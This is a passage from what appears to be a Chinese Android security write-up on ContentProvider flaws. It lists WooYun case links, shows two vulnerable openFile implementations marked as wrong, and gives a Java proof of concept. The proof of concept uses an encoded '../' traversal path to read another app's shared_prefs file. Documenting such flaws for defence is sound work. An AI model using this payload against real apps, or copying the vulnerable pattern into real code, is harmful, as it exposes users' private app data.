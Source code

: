 ## 0x05 案例

----------

**案例1：直接暴露**

- http://www.wooyun.org/bugs/wooyun-2010-041595 
- http://www.wooyun.org/bugs/wooyun-2013-016854 
- http://www.wooyun.org/bugs/wooyun-2013-021089
- http://www.wooyun.org/bugs/wooyun-2010-039290
- http://www.wooyun.org/bugs/wooyun-2013-042609
- http://www.wooyun.org/bugs/wooyun-2014-085432
- http://www.wooyun.org/bugs/wooyun-2014-084500 


**案例2：需权限访问**

- http://www.wooyun.org/bugs/wooyun-2013-041521
- http://www.wooyun.org/bugs/wooyun-2010-057590
- http://www.wooyun.org/bugs/wooyun-2010-039697


 
**案例3：openFile文件遍历**


- http://www.wooyun.org/bugs/wooyun-2013-044407 
- http://www.wooyun.org/bugs/wooyun-2010-047098
- http://www.wooyun.org/bugs/wooyun-2010-044411

Override openFile method

错误写法1：

```java
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
    throws FileNotFoundException {
  File file = new File(IMAGE_DIRECTORY, paramUri.getLastPathSegment());
  return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
}
```

错误写法2：URI.parse()

```java
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
  public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
      throws FileNotFoundException {
    File file = new File(IMAGE_DIRECTORY, Uri.parse(paramUri.getLastPathSegment()).getLastPathSegment());
    return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
  }
```

POC1：

```java
String target = "content://com.example.android.sdk.imageprovider/data/" + "..%2F..%2F..%2Fdata%2Fdata%2Fcom.example.android.app%2Fshared_prefs%2FExample.xml";

ContentResolver cr = this.getContentResolver();
FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));

byte[] buff = new byte[fis.available()];
in.read(buff);
```

